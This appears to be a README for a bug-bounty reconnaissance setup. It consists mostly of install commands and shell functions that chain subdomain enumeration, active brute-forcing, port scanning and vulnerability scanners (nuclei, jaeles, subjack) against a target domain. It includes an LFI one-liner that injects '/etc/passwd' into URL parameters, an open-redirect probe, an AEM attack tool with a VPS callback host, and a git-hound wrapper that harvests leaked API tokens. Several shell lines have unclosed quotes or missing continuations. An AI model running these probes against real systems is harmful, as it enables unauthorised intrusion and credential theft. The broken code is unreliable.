 If you have Go installed and configured (i.e. with $GOPATH/bin in your $PATH):

Install Assetfinder

▶ go get -u github.com/tomnomnom/assetfinder

Install anew

▶ go get -u github.com/tomnomnom/anew

Install Amass

If you have brew installed if not /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"

▶ brew install amass

Install Subfinder

▶ go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest

Install httpx

▶ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest

Install Aquatone

Download the latest release of Aquatone for your operating system.
Uncompress the zip file and move the aquatone binary to your desired location. You probably want to move it to a location in your $PATH for easier use.
Install Naabu

▶ go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest

Install Subjack

▶ go get github.com/haccer/subjack

Install Nuclei

▶ go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest

Install Jaeles

If you have a Go environment, make sure you have Go >= 1.13 with Go Modules enable and run the following command.

▶ GO111MODULE=on go get github.com/jaeles-project/jaeles

Install ffuf

▶ go get -u github.com/ffuf/ffuf You can use dirsearch as well.

▶ pip3 install dirsearch

Download the wordlist ▶ wget "https://raw.githubusercontent.com/hackerspider1/Recon-bugbounty/main/dir.txt"

Enum

Add the following in your .zshrc

enum(){
        mkdir $1
	cd $1
        assetfinder -subs-only "$1" | tee -a domains
        cat domains | anew domains.txt
	amass enum -brute -active --passive -d "$1" -o domains -config ~/.config/amass/config.ini
        cat domains | anew domains.txt
        rm domains
        subfinder -silent -d "$1" -o domains
        cat domains | anew domains.txt
        rm domains
        cat domains.txt | httpx -silent | tee -a hosts.txt
	osascript \
        -e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "cd '`pwd`' && dirsearch -l hosts.txt -t 20 -x 500 -e asp,aspx,htm,html,gz,tgz,zip,txt,php,pl,tar,action,do --excl\ude-status=301,400,403,500-999"'\
        -e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "echo '$1' | git-hound"'
        -e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "kr scan '$1' -A=apiroutes-210228:20000 -x 10 --ignore-length=34x"'
	-e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "cd '`pwd`' && jaeles scan -s ~/.jaeles/ -U hosts.txt 
        cat domains.txt | aquatone -out screens -scan-timeout 200 -screenshot-timeout 60000 -ports xlarge
        naabu -silent -iL domains.txt > portscan.txt
        subjack -w domains.txt -t 100 -timeout 20 -o subjack_out.txt --ssl -c ~/fingerprints.json
	nuclei -l hosts.txt -t ~/nuclei-templates/ -markdown-export reports
	code reports/
	#for i in $(cat hosts.txt); do ffuf -u $i/FUZZ -w ~/Documents/bugbounty/wordlist/dir.txt -ac -c -e php,txt,asp,html,aspx; done
}
Install Git-hound

Download the latest release of GitHound
Create a ./config.yml or ~/.githound/config.yml with your GitHub username and password. Optionally, include your 2FA OTP seed. See config.example.yml.
If it's your first time using the account on the system, you may receieve an account verification email.
Install Kiterunner

You can download a pre-built copy from (https://github.com/assetnote/kiterunner/releases).

Aemhack

git clone https://github.com/0ang3el/aem-hacker.git
cd aem-hacker
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
Add it to .zshrc

aemhack (){ python3 ~/aem-directory/aem-hacker/aem_hacker.py -u $1 --host $2 }

One-Liner

LFI

lfi () {
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
}
Open-redirect

open-redirect () {
local LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
}
Githound

githound(){
echo "$1" | git-hound --dig-files --dig-commits --many-results --regex-file key.txt --results-only > api_tokens.txt"
}
Thanks
